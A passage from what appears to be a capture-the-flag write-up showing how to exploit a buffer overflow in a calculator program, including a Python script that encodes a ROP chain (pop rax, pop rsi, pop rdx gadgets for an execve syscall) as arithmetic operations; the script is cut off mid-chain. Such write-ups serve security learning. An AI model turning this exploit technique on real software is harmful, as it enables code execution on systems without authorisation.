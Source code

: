 The operations done by the calculator are done on 32-bit numbers, therefore each 64-bit value in the ROP chain is constructed with two operations. For example to write the first gadget:
{% highlight text %}
2256282 + 2256282 = 0x0044db34
          42 - 42 = 0x00000000
{% endhighlight %}

Why 42 - 42? Well, [why not][fortytwo]!

The full payload has to contains the following elements:

* The number of calculation
* 18 NULL dwords (e.g. 42 - 42 = 0)
* The ROP chain translated into operations to be done by the calculator
* The option 5 `Save and Exit.` to trigger the bufferoverflow

Here is the full script:
{% highlight python %}
#!/usr/bin/env python3

from time import sleep
from sys import stdout

payload = []

number = '39\n'
payload.append(number)

# add padding to reach saved rip
for i in range(0,18):
    payload.append('2\n42\n42\n')

# 0x44db34 : pop rax ; ret
payload.append('1\n2256282\n2256282\n') #ADD 2256282 2256282
payload.append('2\n42\n42\n')           # PADD
# 0x3b
payload.append('2\n101\n42\n')          #SUB 101 42
payload.append('2\n42\n42\n')           # PADD
# 0x401c87 : pop rsi ; ret
payload.append('1\n2100803\n2100804\n') #ADD 2100803 2100804
payload.append('2\n42\n42\n')           # PADD
# 0x0
payload.append('2\n42\n42\n')           #SUB 42 42
payload.append('2\n42\n42\n')           # PADD
# 0x437a85 : pop rdx ; ret
payload.append('1\n2211138\n2211139\n') #ADD 2211138 2211139
payload.append('2\n42\n42\n')           # PADD
# 0x0
payload.append('2\n42\n42\n')           #SUB 42 42
payload.append('2\n42\n42\n')           # PADD
# 0x400493 : pop r12 ; ret
payload.append('1\n2097737\n2097738\n') #ADD 2097737 2097738
payload.append('2\n42\n42\n')           # PADD

[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[libc_free]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=b8a43bfb32bcd97a6ed468cb7635b4bbfef2e3a2;hb=HEAD#l2925
[syscalls]: http://blog.rchapman.org/post/36801038863/linux-system-call-table-for-x86-64
[call_conv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[fortytwo]: https://en.wikipedia.org/wiki/The_answer_to_life_the_universe_and_everything#Answer_to_the_Ultimate_Question_of_Life.2C_the_Universe.2C_and_Everything_.2842.29
